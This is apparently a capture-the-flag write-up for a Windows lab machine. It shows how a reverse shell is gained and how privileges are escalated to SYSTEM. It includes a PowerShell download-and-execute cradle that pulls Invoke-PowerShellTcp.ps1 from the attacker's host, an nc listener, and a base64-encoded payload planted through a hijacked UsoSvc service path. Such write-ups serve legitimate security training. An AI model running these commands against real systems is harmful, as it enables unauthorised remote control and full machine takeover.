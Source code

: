 - Before executing run `tcpdump` to verify

__Result__
![tcpdump](images/tcpdump.PNG)

- Running reverse shell (`Invoke-PowerShellTcp.ps1 `)

- payload modifications
    - `string cmd` = `'iex(iwr http://10.10.14.12/Invoke-PowerShellTcp.ps1 -UseBasicParsing' `
    - ` proc.StartInfo.FileName` = `powershell.exe`

__Result__



```bash
$ nc -lvnp  9001          
listening on [any] 9001 ...
connect to [10.10.14.12] from (UNKNOWN) [10.10.10.180] 49703
Windows PowerShell running as user REMOTE$ on REMOTE
Copyright (C) 2015 Microsoft Corporation. All rights reserved.

PS C:\windows\system32\inetsrv>

```


## Privilege escalation

- Downloaidng `winpeas` to victim machine

```bash
iwr http://10.10.14.12/winPEASany.exe -UseBasicParsing -OutFile win.exe
```

- on running `winPEAS` found a service that can be modified

![modifiable_service](images/modifiable_service.PNG)


We need to change the path of the service and start.

1. Download the reverse shell into the target system

- The following is the encoded payload that need to be executed on victim machine.
```bash
echo "IEX (IWR http://10.10.14.12/Invoke-PowerShellTcp.ps1 -UseBasicParsing)" | iconv -t utf-16le | base64 -w 0
SQBFAFgAIAAoAEkAVwBSACAAaAB0AHQAcAA6AC8ALwAxADAALgAxADAALgAxADQALgAxADIALwBJAG4AdgBvAGsAZQAtAFAAbwB3AGUAcgBTAGgAZQBsAGwAVABjAHAALgBwAHMAMQAgAC0AVQBzAGUAQgBhAHMAaQBjAFAAYQByAHMAaQBuAGcAKQAKAA==   
```

- Executing the encoded payload by setting the path and starting the service


```powershell
PS  C:\users\public> sc.exe config UsoSvc binpath= "cmd.exe /c powershell.exe -EncodedCommand SQBFAFgAIAAoAEkAVwBSACAAaAB0AHQAcAA6AC8ALwAxADAALgAxADAALgAxADQALgAxADIALwBJAG4AdgBvAGsAZQAtAFAAbwB3AGUAcgBTAGgAZQBsAGwAVABjAHAALgBwAHMAMQAgAC0AVQBzAGUAQgBhAHMAaQBjAFAAYQByAHMAaQBuAGcAKQAKAA=="
[SC] ChangeServiceConfig SUCCESS
```

- then start the service

```bash
PS C:\users\public> net start UsoSvc 
```


__Result__

```bash
PS C:\Windows\system32>whoami
nt authority\system
```
